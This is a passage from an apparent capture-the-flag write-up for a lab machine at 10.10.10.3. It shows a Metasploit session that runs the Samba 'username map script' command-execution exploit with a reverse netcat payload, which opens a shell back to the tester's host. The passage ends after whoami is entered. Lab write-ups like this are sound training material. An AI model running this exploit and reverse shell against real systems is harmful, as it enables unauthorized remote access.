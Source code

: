 {% code lineNumbers="true" %}
```
msf6 > search usermap_script

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script                                                                                            


```
{% endcode %}

Use the exploit in msfconsole and set rhost and lhost accordingly. Run the exploit. Check whoami to determine what account I am logged into.

{% code lineNumbers="true" %}
```
msf6 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.6
lhost => 10.10.14.6
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.10.3:41991 ) at 2022-12-08 22:48:53 +0000

pwd
/
whoami
```